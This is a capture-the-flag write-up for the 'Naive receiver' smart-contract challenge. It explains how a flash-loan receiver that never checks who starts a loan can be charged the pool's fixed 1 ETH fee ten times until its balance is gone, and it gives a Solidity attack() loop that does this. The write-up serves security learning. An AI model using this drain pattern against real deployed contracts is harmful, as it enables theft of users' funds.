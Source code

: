 ## Naive receiver

### Challenge description

> There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
>
> You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
>
> Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

### Solution

The receiver contract will forward `amountToBeRepaid` to the pool, which includes the pool fee:

```cs
uint256 amountToBeRepaid = msg.value + fee;
```

And the pool will always charge a fixed fee of 1 ETH in `flashLoan()`:

```cs
require(
    address(this).balance >= balanceBefore + FIXED_FEE,
    "Flash loan hasn't been paid back"
);
```

Given that the `receiveEther()` function does not check for a `msg.value` and that the contract doesn't check that `tx.origin` comes from the deployer of the receiver contract (whoever owns it), it is possible to drain its balance and send it to the pool in either 10 transactions with a `borrowAmount` of 0 wei or in one transaction in a short contract which performs a loop:

```cs
function attack() public {
    for (uint8 i = 0; i < 10; i++) {
        naiveReceiverPool.flashLoan(address(naiveReceiver), 0);
    }
}
```
